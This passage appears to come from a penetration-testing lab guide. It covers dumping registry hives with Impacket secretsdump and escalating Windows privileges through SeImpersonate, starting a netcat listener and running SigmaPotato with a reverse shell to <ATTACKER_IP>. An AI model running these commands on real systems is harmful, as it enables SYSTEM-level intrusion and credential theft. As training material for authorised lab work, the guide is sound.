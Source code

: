 #### Alternatives
- TO-DO

#### Resources
- [Impacket SecretsDump: https://github.com/SecureAuthCorp/impacket](https://github.com/SecureAuthCorp/impacket)

#### Notes
- Save hives to a writable directory before dumping.

---

### Lab 7: Privilege Escalation via Impersonation
#### Objective
Escalate privileges by exploiting token impersonation vulnerabilities.

#### Vulnerabilities
- SeImpersonate Privilege: Allows impersonation of privileged tokens to gain SYSTEM access.

#### Requirements
Target Windows machine must grant SeImpersonate privilege to the user.

#### Steps
1. **Setup**
   - Verify user privileges.
   ```bash
   whoami /priv
   ```
2. **Reconnaissance**
   - Confirm SeImpersonate privilege is enabled.
   ```bash
   whoami /priv | findstr SeImpersonate
   ```
3. **Exploitation**
   - Use SigmaPotato to exploit SeImpersonate for a SYSTEM shell.
   - Start a net cat listener on your attacking machine `nc -nlvp <LISTENING PORT>`
   - Download SigmaPotatoe.exe into the workstation and execute the command to get a shell
   ```bash
   .\SigmaPotatoe.exe --revshell <ATTACKER_IP> <LISTENING_PORT>
   ```

#### Why It Works
SeImpersonate allows attackers to impersonate privileged tokens, escalating to SYSTEM privileges.

#### Alternatives
- Use RoguePotato or JuicyPotatoe for similar token impersonation exploits.

#### Resources
- [JuicyPotato Guide: https://github.com/ohpe/juicy-potato](https://github.com/ohpe/juicy-potato)

#### Notes
- Ensure a listener is active for the reverse shell.

---